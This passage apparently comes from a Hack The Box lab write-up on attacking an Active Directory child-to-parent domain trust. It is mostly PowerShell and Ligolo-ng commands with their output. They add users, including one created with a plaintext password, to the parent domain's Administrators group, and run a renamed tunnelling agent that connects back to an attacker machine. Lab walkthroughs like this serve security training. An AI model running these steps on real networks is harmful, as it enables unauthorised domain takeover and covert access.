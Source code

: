 #### Performing the attack
```
//adding our user into Administrators
PS C:\Users\Public> . .\PowerView.ps1
PS C:\Users\Public> hostname;whoami
CHILD-DC
child\htb-student
PS C:\Users\Public> Add-DomainGroupMember -identity 'Administrators' -Members 'child\htb-student' -Domain inlanefreight.ad -Verbose
VERBOSE: [Get-PrincipalContext] Binding to domain 'inlanefreight.ad'
VERBOSE: [Get-PrincipalContext] Binding to domain 'child.inlanefreight.ad'
VERBOSE: [Add-DomainGroupMember] Adding member 'child\htb-student' to group 'Administrators'

//create new user
PS C:\Users\Public> $SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force
PS C:\Users\Public> New-DomainUser -Domain inlanefreight.ad -SamAccountName Freak -AccountPassword $SecPassword
PS C:\Users\Public> Add-DomainGroupMember -identity 'Administrators' -Members 'Freak' -Domain inlanefreight.ad -Verbose
VERBOSE: [Get-PrincipalContext] Binding to domain 'inlanefreight.ad'
VERBOSE: [Add-DomainGroupMember] Adding member 'Freak' to group 'Administrators'
```
In our scenario extra step needed, we need to use [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) because only the child domain is accessible via VPN, while the other domains are on an internal interface.
 

```
//uploading ligolo agent into victim machine
PS C:\Users\Public> .\vhosts.exe -connect 10.10.15.233:11601 -retry -ignore-cert
time="2024-09-12T17:41:44-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-09-12T17:41:44-05:00" level=info msg="Connection established" addr="10.10.15.233:11601"
```

We got connection into our machine wish it attacker machine 
```
//ligolo attacker machine
[Agent : CHILD\htb-student@CHILD-DC] » INFO[2123] Agent joined.
name="CHILD\\htb-student@CHILD-DC" remote="10.129.229.201:52521"

ligolo-ng » interface_list
┌────────────────────────────────────────────────────────────────────────────────────────────────────┐
│ Available tuntaps                                                                                  │
├───┬──────────┬─────────────────────────────────────────────────────────────────────────────────────┤
│ # │ TAP NAME │ DST ROUTES                                                                          │
├───┼──────────┼─────────────────────────────────────────────────────────────────────────────────────┤
│ 0 │ notedice │ fe80::/64,172.16.114.0/24                                                           │
│ 1 │ tun0     │ fe80::/64,10.10.10.0/23,10.10.14.0/23,10.129.0.0/16,dead:beef::/64,dead:beef:2::/64 │
└───┴──────────┴─────────────────────────────────────────────────────────────────────────────────────┘
```
